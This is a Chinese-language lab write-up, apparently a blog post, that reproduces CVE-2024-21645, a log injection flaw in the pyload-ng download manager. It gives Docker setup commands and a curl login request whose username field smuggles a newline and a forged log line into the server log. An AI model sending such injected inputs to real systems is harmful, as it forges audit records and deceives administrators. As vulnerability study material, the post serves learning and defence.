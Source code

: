 #  [漏洞复现]CVE-2024-21645   
原创 fgz  AI与网安   2024-01-14 00:02  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
pyload日志注入漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
pyload-ng < 0.5.0b3.dev76版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhfFVt8CiaiaWUXwWSGhHbo1ODLlia0p9N5iaTp7mph7Q73m188scB3NnvFg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
pyload是一个  
用纯 Python 编写的免费开源下载管理器。有WEB页面，在页面上有个查看日志的功能，存在  
日志注入漏洞。此漏洞允许任何未经身份验证的参与者将任意消息注入到pyload。  
pyload尝试使用错误凭据登录时将生成日志条目。该条目将采用 的形式Login failed for user 'USERNAME'。但是，当提供包含换行符的用户名时，该换行符不会正确转义。换行符也是日志条目之间的分隔符。这允许攻击者将新的日志条目注入日志文件中。  
  
  
04  
  
—  
  
靶场搭建  
  
  
  
方便期间直接使用docker搭建靶场  
```
docker search pyload
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhVag4iaR3bSIt1Y5icGicgTgciarecVR1yickAia9U84RIqwa3dZ1aFwSbCiaw/640?wx_fmt=png&from=appmsg "")  
```
docker pull linuxserver/pyload-ng
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhxuhfFSibdEydukQpSBB40wAD7xoBUwicHXOrlZhVhpnaUjKpTNQ66cibg/640?wx_fmt=png&from=appmsg "")  
  
  
启动容器  
```
docker run -p 8000:8000 linuxserver/pyload-ng
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhsfUlpLG847PxXnicscKWxUB8adFmQkwBpXfPIXGqZibCFKNfwqqib5mcQ/640?wx_fmt=png&from=appmsg "")  
  
  
访问页面  
  
http://192.168.40.130:8000/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhHOGLQFjQiaeN4ibIVJIIcbchECZp1Xeicj1ef8ef0TyURGYfVYpDpvuicQ/640?wx_fmt=png&from=appmsg "")  
  
至此靶场搭建完成  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
先登录进去，然后查看日志  
  
pyload/pyload  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRhjyWpZ7czSWqpLuHiamJ16RheiacYtR8PxI3RPeibRI8YlacuXxtguwtCw/640?wx_fmt=png&from=appmsg "")  
  
  
任何未经身份验证的攻击者现在都可以发出以下请求来注入任意日志。我们在另一台kali虚拟机上执行如下命令  
```
curl 'http://192.168.40.130:8000/login?next=http://192.168.40.130:8000/' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw $'do=login&username=wrong\'%0a[2024-01-05 02:49:19]  HACKER               PinkDraconian  THIS ENTRY HAS BEEN INJECTED&password=wrong&submit=Login'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRh9I0Pet1N9BR6LmKzzPx2oU6ia1Yxu5k2EAobGd0rmwGGP3HghLduluA/640?wx_fmt=png&from=appmsg "")  
  
  
再次查看日志，我们会看到该条目已成功注入。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPJOHqibtRl2PmZYFOnCFXRh2ETsAGVqGdFjIYz5eVqfY2TtzuFTOJTYVxSTvzuLib35zibv9bZl9k7w/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
  
漏洞实用性不强，懒得写POC了。  
  
  
07  
  
—  
  
修复建议  
  
  
开源项目，自行修复。  
  
  
  
